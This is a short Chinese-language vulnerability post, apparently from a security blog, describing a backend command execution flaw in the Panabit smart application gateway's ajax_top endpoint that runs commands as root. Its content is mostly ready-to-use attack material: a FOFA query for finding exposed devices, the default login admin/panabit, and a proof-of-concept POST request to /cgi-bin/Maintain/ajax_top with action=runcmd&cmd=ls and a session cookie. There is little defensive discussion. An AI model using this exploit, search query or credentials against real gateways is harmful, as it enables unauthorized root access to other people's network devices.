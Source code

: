 #  Panabit-智能应用网关-后台命令执行漏洞   
原创 骇客安全  骇客安全   2025-03-28 21:56  
  
# Panabit 智能应用网关 后台命令执行漏洞  
  
Panabit 智能应用网关 ajax_top 后台存在命令执行漏洞，攻击者可以以root权限运行部分危险命令.  
  
  
fofa：cert="panabit.com" && body="/login/login.js"  
  
  
默认密码：admin/panabit  
  
  
poc：  
  
```
POST /cgi-bin/Maintain/ajax_top?action=runcmd&cmd=ls HTTP/1.1
Host: 
Connection: close
Content-Length: 0
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Cache-Control: no-cache
Accept-Language: zh-CN,zh;q=0.8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/html; charset=GB2312
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Cookie: pauser_1618744108=paonline_admin_9328_16197064781_c4229a3a492c76e334f57728abced88b|443|;
```  
  
  
  
